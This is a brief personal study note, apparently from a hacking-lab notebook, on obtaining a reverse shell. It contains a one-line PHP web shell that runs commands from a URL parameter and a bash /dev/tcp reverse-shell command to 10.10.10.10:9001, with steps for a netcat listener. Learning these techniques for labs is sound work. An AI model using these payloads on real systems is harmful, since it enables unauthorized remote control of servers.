 ## Reverse shell 

- By passing the php  file we can open the reverse shell 


```php 
<?php system($_GET["cmd"]);?>
```
1. Checkout [reverse shell](https://www.revshells.com/)
2. Use dev tcp to open the shell since [[netcat]] is not avaiable 
	1. ex *sh -i >& /dev/tcp/10.10.10.10/9001 0>&1*
3. Create the listner with the [[netcat]]
4. Create a **python server** that catches the shell and enables interactivity


>[!quote]  [[bash_MAIN]]